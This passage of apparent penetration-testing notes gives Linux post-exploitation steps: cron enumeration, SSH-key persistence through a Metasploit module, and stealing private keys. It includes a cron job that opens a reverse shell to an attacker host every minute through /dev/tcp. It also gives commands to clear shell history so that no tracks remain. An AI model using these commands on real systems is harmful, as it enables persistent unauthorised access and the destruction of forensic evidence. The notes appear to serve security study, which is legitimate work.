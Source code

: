   * `top` dynamic real-time view of a running system (like task manager)
  * `crontab -l` : display cronjob for the root user
  * `ls -al /etc/cron*` : display all file that contains cronjob
  * `cat /etc/cron*` : display the contents of all cronjob files

### Persistence

* Metasploit
  * search persistence module (Linux)
    * Example: post/linux/manage/sshkey\_persistence (needed elevated privs - This module will add an SSH key to a specified user)
* Via SSH key
  * After gaining access to linux system, you can transfer SSH private key to local machine and use it to connect via SSH
* With cron jobs
  * Set up listener
  * `echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'" > cron` : create a cronjob (every minute time format)
  * `crontab -i cron`
  * `crontab -l` : crontab for the current user
  * NOTE: if the command doesn't work try with another one... revshell

### Clearing tracks

* `history -c` : to clear history in linux
* `cat /dev/null > ~/.bash_history` : same as above
